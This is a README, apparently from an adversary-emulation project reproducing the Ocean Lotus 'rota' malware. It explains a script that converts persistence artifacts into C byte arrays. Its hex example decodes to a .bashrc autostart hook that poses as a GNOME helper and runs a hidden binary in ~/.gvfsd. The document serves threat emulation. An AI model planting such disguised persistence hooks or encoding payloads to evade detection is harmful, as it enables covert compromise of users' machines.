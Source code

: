 ## Utils
These files represent the persistence artifacts left by Ocean Lotus.
The [file2bytearray.py](./file2bytearray.py) script converts an arbitrary file to a C byte array to be used for stack-strings within the rota tool.
Examples of this can be seen within [persistence.c](../src/persistence.c)

### Usage Example
* Specify a file to read in and convert to a byte array to be used within rota.
``` sh
$> python3 file2bytearray.py -f bashrc-autostart
```

Example output:

``` c
char bashrc_autostart [219] = {0x23,0x20,0x41,0x64,0x64,0x20,0x47,0x4e,0x4f,0x4d,0x45,0x27,0x73,0x20,0x68,0x65,0x6c,0x70,0x65,0x72,0x20,0x64,0x65,0x73,0x69,0x67,0x6e,0x65,0x64,0x20,0x74,0x6f,0x20,0x77,0x6f,0x72,0x6b,0x20,0x77,0x69,0x74,0x68,0x20,0x74,0x68,0x65,0x20,0x49,0x2f,0x4f,0x20,0x61,0x62,0x73,0x74,0x72,0x61,0x63,0x74,0x69,0x6f,0x6e,0x20,0x6f,0x66,0x20,0x47,0x49,0x4f,0xa,0x23,0x20,0x74,0x68,0x69,0x73,0x20,0x65,0x6e,0x76,0x69,0x72,0x6f,0x6e,0x6d,0x65,0x6e,0x74,0x20,0x76,0x61,0x72,0x69,0x61,0x62,0x6c,0x65,0x20,0x69,0x73,0x20,0x73,0x65,0x74,0x2c,0x20,0x67,0x76,0x66,0x73,0x64,0x20,0x77,0x69,0x6c,0x6c,0x20,0x6e,0x6f,0x74,0x20,0x73,0x74,0x61,0x72,0x74,0x20,0x74,0x68,0x65,0x20,0x66,0x75,0x73,0x65,0x20,0x66,0x69,0x6c,0x65,0x73,0x79,0x73,0x74,0x65,0x6d,0xa,0x69,0x66,0x20,0x5b,0x20,0x2d,0x64,0x20,0x24,0x7b,0x48,0x4f,0x4d,0x45,0x7d,0x20,0x5d,0x3b,0x20,0x74,0x68,0x65,0x6e,0xa,0x20,0x20,0x20,0x20,0x20,0x20,0x20,0x20,0x24,0x7b,0x48,0x4f,0x4d,0x45,0x7d,0x2f,0x2e,0x67,0x76,0x66,0x73,0x64,0x2f,0x2e,0x70,0x72,0x6f,0x66,0x69,0x6c,0x65,0x2f,0x67,0x76,0x66,0x73,0x64,0x2d,0x68,0x65,0x6c,0x70,0x65,0x72,0xa,0x66,0x69,0xa};
```

### TODO
Enhance `file2bytearray.py` to also perform encryption + rotate.

